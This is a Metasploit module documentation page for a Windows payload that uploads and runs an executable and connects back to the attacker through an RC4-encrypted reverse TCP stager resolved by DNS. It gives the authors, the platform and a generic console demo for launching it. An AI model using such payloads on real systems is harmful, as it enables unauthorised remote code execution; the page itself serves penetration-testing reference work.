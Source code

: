 ## Windows Upload/Execute, Reverse TCP Stager (RC4 Stage Encryption DNS)

Uploads an executable and runs it (staged). Connect back to 
the attacker


## Module Name
payload/windows/upexec/reverse_tcp_rc4_dns

## Authors
* vlad902
* sf
* hdm
* skape
* mihi
* RageLtMan





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/upexec/reverse_tcp_rc4_dns
msf payload(reverse_tcp_rc4_dns) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_rc4_dns) > set TARGET <target-id>
msf payload(reverse_tcp_rc4_dns) > show options
   ... show and set options ...
msf payload(reverse_tcp_rc4_dns) > run
```
    
    
